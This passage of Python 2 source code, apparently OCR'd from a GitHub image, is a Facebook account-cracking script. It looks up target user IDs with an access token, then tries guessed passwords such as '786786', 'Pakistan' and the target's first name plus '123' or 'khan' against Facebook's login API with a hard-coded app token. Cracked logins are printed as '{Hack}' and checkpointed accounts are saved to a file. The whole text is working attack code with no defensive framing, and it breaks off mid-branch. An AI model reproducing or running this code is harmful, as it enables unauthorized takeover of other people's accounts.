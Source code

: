			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('786786')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;92m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = ('Pakistan')
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = (j['first_name']+'123')
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = (j['first_name']+'khan')